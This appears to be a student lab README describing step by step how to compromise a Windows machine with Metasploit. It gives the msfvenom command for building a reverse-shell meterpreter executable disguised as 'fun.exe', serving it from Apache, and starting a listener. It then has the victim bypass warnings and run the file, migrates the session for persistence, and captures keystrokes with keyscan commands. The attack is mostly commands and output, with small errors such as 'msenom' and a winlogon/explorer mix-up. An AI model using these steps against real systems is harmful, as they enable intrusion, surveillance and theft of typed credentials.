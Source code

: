 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands


  

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![ethical_6 1](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/b475e147-74c7-4e34-be25-d4820f93b867)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![ethical_6 2](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/4dec2572-ff3e-491e-8025-038022269eb9)


copy the fun.exe into the apache /var/www/html folder

![ethical_6 3](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/769e78fe-55be-4369-9094-786c2dd460ac)


Start apache server sudo systemctl apache2 start

![ethical_6 4](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/d74a83d7-becb-41f6-87a4-f4aec47fada5)

Check the status of apache2

1


Invoke msfconsole:
msfconsole

![ethical_6 5](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/bb77d7c3-ea23-46d0-95e5-1bc63dc8b597)



Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


![ethical_6 6](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/021b73fe-0c10-4f8c-bab0-167650e6cf53)


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![ethical_6 7](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/0ace7b2e-ea18-4b21-9888-796c11ee0caf)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![ethical_6 8](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/9d8ab975-5ddd-42e7-9fb0-ceebad2771cc)


Bypass any warning boxes, double-click the file, and allow it to run.

![ethical_6 9](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/42179281-73e2-4768-9e85-166c2489ba21)



On kali give the command exploit
![ethical_6 10](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/65968bd8-ad25-4b9e-b67b-2d1cc981cfb0)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![ethical_6 11](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/bf35eb36-f20c-4be7-83a9-79015aa2edc1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![ethical_6 12](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/3fc4ec5e-4ee0-4144-8175-1bba188f064f)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![ethical_6 13](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/27da9493-74af-4eef-8bd9-12cca82c15ca)

![ethical_6 14](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/a5c2bde8-be7c-47d3-9d59-f7d1e1407754)


keyscan_dump Shows the keystrokes captured so far.

![ethical_6 15](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/315574a7-5fc8-490f-b255-44857e3a6f77)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
